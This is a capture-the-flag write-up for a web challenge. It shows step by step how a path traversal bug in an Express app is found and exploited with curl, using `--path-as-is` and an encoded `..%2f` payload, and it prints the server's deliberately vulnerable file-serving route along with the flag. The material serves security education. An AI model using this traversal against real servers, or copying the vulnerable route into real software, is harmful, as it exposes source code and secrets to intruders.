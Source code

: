 # Log Me Policy
* Category: Web
* 200 Points
* Solved by the JCTF Team

## Description
> Hi there, our SOC team recived message that a hacker was quickly able to compromise our customer's senstive data by abuse our super-secure login page.
> 
> Could you spot the vulnerability and let us know the flag?


## Solution

We visit the attached website and get a simple login page (`https://logmepolicy.appsecil.ctf.today/relam/splogin`).

Apart from the login form, the login page contains a link to the terms of use:

```html
<div class="text-center">
    By login you are accept to our <a class="small" href="../documentation/terms.txt"
                                        download>terms of
        use</a> policy.
</div>
```

Let's take a look at `robots.txt`:

```
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/robots.txt
User-agent: *
Disallow: /
Disallow: /documentation/terms.txt
Disallow: /documentation/old_terms.txt
```

So both `terms` and `old_terms.txt` are hidden from search engines.

Let's check the terms:

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/relam/../documentation/terms.txt
Website Terms of Use
Version 2.0

The Website Name website located at Website.com is a copyrighted work belonging to Website Name. Certain features of the Site may be subject to additional guidelines, terms, or rules, which will be posted on the Site in connection with such features.

All such additional terms, guidelines, and rules are incorporated by reference into these Terms.

These Terms of Use described the legally binding terms and conditions that oversee your use of the Site. BY LOGGING INTO THE SITE, YOU ARE BEING COMPLIANT THAT THESE TERMS and you represent that you have the authority and capacity to enter into these Terms. YOU SHOULD BE AT LEAST 18 YEARS OF AGE TO ACCESS THE SITE. IF YOU DISAGREE WITH ALL OF THE PROVISION OF THESE TERMS, DO NOT LOG INTO AND/OR USE THE SITE.

These terms require the use of arbitration Section 10.2 on an individual basis to resolve disputes and also limit the remedies available to you in the event of a dispute.
```

Nothing interesting there. Let's move one to the old terms:

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/relam/../documentation/old_terms.txt
Error: ENOENT: no such file or directory, open '/app/documentation/old_terms.txt'
    at Object.openSync (fs.js:462:3)
    at Object.readFileSync (fs.js:364:35)
    at /app/app.js:40:21
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
    at param (/app/node_modules/express/lib/router/index.js:354:14)
    at param (/app/node_modules/express/lib/router/index.js:365:14)
```

We get an exception originating from `/app/app.js`.

Let's try to read it:

```
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/app.js
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /app.js</pre>
</body>
</html>
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/documentation/../app.js
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /app.js</pre>
</body>
</html>
```

No luck. Notice however that in both cases the error message refers to `/app.js`, without mentioning `/documentation/../app.js`. Let's take a closer look at the request being sent by `curl` by examining the request headers:
```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl -s -v -I https://logmepolicy.appsecil.ctf.today/documentation/../app.js 2>&1 | grep ">"
> HEAD /app.js HTTP/1.1
> Host: logmepolicy.appsecil.ctf.today
> User-Agent: curl/7.64.0
> Accept: */*
>
```

It looks like `curl` is requesting `/app.js` and not `/documentation/../app.js`. What if the file leak bug is only exposed when accessing paths under `/documentation/`?

To force `curl` to send the path as-is, we can use an extra flag:

> --path-as-is: Tell curl to not handle sequences of /../ or /./ in the given URL path. Normally curl will squash or merge them according to standards but with this option set you tell it not to do that. 

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl -s -v -I --path-as-is https://logmepolicy.appsecil.ctf.today/documentation/../app.js 2>&1 | grep ">"
> HEAD /documentation/../app.js HTTP/1.1
> Host: logmepolicy.appsecil.ctf.today
> User-Agent: curl/7.64.0
> Accept: */*
```

Now the full path that we've supplied is being sent, but we still don't get any useful response:

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl --path-as-is https://logmepolicy.appsecil.ctf.today/documentation/../app.js
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /documentation/../app.js</pre>
</body>
</html>
```

Encoding the '`/`' as '`%2f`' does the trick:

```console
root@kali:/media/sf_CTFs/appsec/Log_Me_Policy# curl https://logmepolicy.appsecil.ctf.today/documentation/..%2fapp.js
const fs = require('fs');
const path = require('path');
const express = require("express");

const app = express();

// set the view engine to ejs
app.set('view engine', 'ejs');
app.use(express.static(path.join(__dirname, 'public')));

app.use((req, res, next) => {
    res.removeHeader("X-Powered-By");
    res.append('Server', 'AppSec-IL/20.20');
    res.append('Access-Control-Allow-Origin', ['*']);
    res.append('Access-Control-Allow-Methods', 'GET,PUT,POST,DELETE');
    res.append('Access-Control-Allow-Headers', 'Content-Type');
    next();
});

app.get("/", (req, res, next) => {
    res.redirect('/relam/splogin')
});

app.get("/relam/splogin", (req, res, next) => {
    res.render("login", {error: ""});
});

app.post("/relam/splogin", (req, res, next) => {
    res.render("login", {error: 'Username or password is incorrect.'});
});

/***
 * @TBD: our engineering team told us to check out this method, let's test it next sprint
 * AppSec-IL{d0_n0T_t4UST_uS34_iNp7t}
 */
app.get("/documentation/:file", (req, res, next) => {
    let buffer = "";
    const filePath = path.join(__dirname, "documentation", req.params.file);
    try {
        buffer = fs.readFileSync(filePath);
    } catch (error) {
        buffer = error.stack.toString();
    }
    res.type('application/octet-stream');
    res.send(buffer.toString());
});

app.listen(8081, () => {
    console.log("Server running on port 8081");
});
```

This confirms our suspicion that the path traversal bug exists only under `/documentation/`.

The flag: `AppSec-IL{d0_n0T_t4UST_uS34_iNp7t}`